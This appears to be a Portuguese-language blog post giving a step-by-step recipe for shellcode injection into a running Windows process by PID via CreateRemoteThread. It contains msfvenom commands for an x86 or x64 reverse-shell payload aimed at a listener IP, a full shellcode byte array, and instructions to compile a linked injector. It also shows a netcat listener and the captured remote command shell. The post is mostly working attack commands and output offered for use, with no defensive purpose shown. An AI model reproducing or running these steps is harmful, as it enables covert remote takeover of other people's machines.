 ```yaml
---
title: Injeção de Código - Injection Remote Process PID
category: post
---
```


>link do código usado : 
https://github.com/d0x75/Injector-RemoteProcess.git


**Windows CreateRemoteThread Shellcode Injection and Execution in Remote Process**

>Essa também é uma o clássica Injeção de Shellcode que
no caso é feito em outro módulo/processo que está em execução no computador alvo. O PID do módulo/processo é a referencia que utilizamos para injetar o shellcode.

>Quando o shellcode for executado com sucesso, ganhamos acesso na máquina alvo; Conforme a seguir :


#### Step 1

- Gerar os bytes do shellcode para Windows x86, apontando para o IP do computador que vai ganhar o acesso.



```ruby
msfconsole
msfvenom -p windows/shell_reverse_tcp
LHOST=192.168.10.113 LPORT=1234 -f c -b \x00\x0a\x0d
```

- Ou Gerar os bytes do shellcode para Windows x64, apontando para o IP do computador que vai ganhar o acesso.


```ruby
msfconsole
msfvenom -p windows/x64/shell_reverse_tcp
LHOST=192.168.10.113 LPORT=1234 -f c -b \x00\x0a\x0d
```

- Após rodar o comando acima com sucesso, teremos os bytes do shellcode na tela. Exemplo :

```c++
		unsigned char buf[] =
		"\x33\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
		"\xfb\x25\xeb\xf6\x83\xee\xfc\xe2\xf4\x07\xcd\x69\xf6\xfb\x25"
		"\x8b\x7f\x1e\x14\x2b\x92\x70\x75\xdb\x7d\xa9\x29\x60\xa4\xef"
		"\xae\x99\xde\xf4\x92\xa1\xd0\xca\xda\x47\xca\x9a\x59\xe9\xda"
		"\xdb\xe4\x24\xfb\xfa\xe2\x09\x04\xa9\x72\x60\xa4\xeb\xae\xa1"
		"\xca\x70\x69\xfa\x8e\x18\x6d\xea\x27\xaa\xae\xb2\xd6\xfa\xf6"
		"\x60\xbf\xe3\xc6\xd1\xbf\x70\x11\x60\xf7\x2d\x14\x14\x5a\x3a"
		"\xea\xe6\xf7\x3c\x1d\x0b\x83\x0d\x26\x96\x0e\xc0\x58\xcf\x83"
		"\x1f\x7d\x60\xae\xdf\x24\x38\x90\x70\x29\xa0\x7d\xa3\x39\xea"
		"\x25\x70\x21\x60\xf7\x2b\xac\xaf\xd2\xdf\x7e\xb0\x97\xa2\x7f"
		"\xba\x09\x1b\x7a\xb4\xac\x70\x37\x00\x7b\xa6\x4d\xd8\xc4\xfb"
		"\x25\x83\x81\x88\x17\xb4\xa2\x93\x69\x9c\xd0\xfc\xda\x3e\x4e"
		"\x6b\x24\xeb\xf6\xd2\xe1\xbf\xa6\x93\x0c\x6b\x9d\xfb\xda\x3e"
		"\xa6\xab\x75\xbb\xb6\xab\x65\xbb\x9e\x11\x2a\x34\x16\x04\xf0"
		"\x7c\x9c\xfe\x4d\x2b\x5e\xf1\x54\x83\xf4\xfb\x21\x39\x7f\x1d"
		"\x4f\xfb\xa0\xac\x4d\x72\x53\x8f\x44\x14\x23\x7e\xe5\x9f\xfa"
		"\x04\x6b\xe3\x83\x17\x4d\x1b\x43\x59\x73\x14\x23\x93\x46\x86"
		"\x92\xfb\xac\x08\xa1\xac\x72\xda\x00\x91\x37\xb2\xa0\x19\xd8"
		"\x8d\x31\xbf\x01\xd7\xf7\xfa\xa8\xaf\xd2\xeb\xe3\xeb\xb2\xaf"
		"\x75\xbd\xa0\xad\x63\xbd\xb8\xad\x73\xb8\xa0\x93\x5c\x27\xc9"
		"\x7d\xda\x3e\x7f\x1b\x6b\xbd\xb0\x04\x15\x83\xfe\x7c\x38\x8b"
		"\x09\x2e\x9e\x1b\x43\x59\x73\x83\x50\x6e\x98\x76\x09\x2e\x19"
		"\xed\x8a\xf1\xa5\x10\x16\x8e\x20\x50\xb1\xe8\x57\x84\x9c\xfb"
		"\x76\x14\x23";
```


#### Step 2

- Abrir o código do link mencionado no inicio, que tem o
código responsável por executar os bytes gerados acima.


```text
injectremotePID.cpp
```

- Copiar os bytes gerados pelo msfvenom no Step 1, em seguida devemos colar esses bytes no conteúdo da variável *unsigned char shellcode[] = ""* do código 'injectremotePID.cpp' e depois compilar-lo.

- Ao compilar o software com sucesso teremos o executável pronto para uso.


```text
injectremotePID.exe
```

#### Step 3

- Anotar o PID do processo/módulo em que iremos injetar o shellcode.


```text
para vermos o PID podemos usar o "ProcessHacker" ou "procexp"
```

- Abrir a porta que colocamos como argumento no msfvenom para gerar o shellcode, no computador com o IP que também colocamos como argumento no msfvenom para gerar o shellcode :


```bash
nc -vlp 1234
```

- Executar o binário que injeta o shellcode passando o PID anotado acima como argumento para o programa injetor :


```cmd
injectremotePID.exe 2004
```

- Feito isso, já devemos ganhar o acesso no alvo.


```bash
nc -vlp 1234
listening on [any] 1234 ...
192.168.10.109: inverse host lookup failed: Host name lookup failure
connect to [192.168.10.113] from (UNKNOWN) [192.168.10.109] 49173
Microsoft Windows [vers�o 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. Todos os direitos reservados.

C:\Users\VBOX_7\Desktop>
```
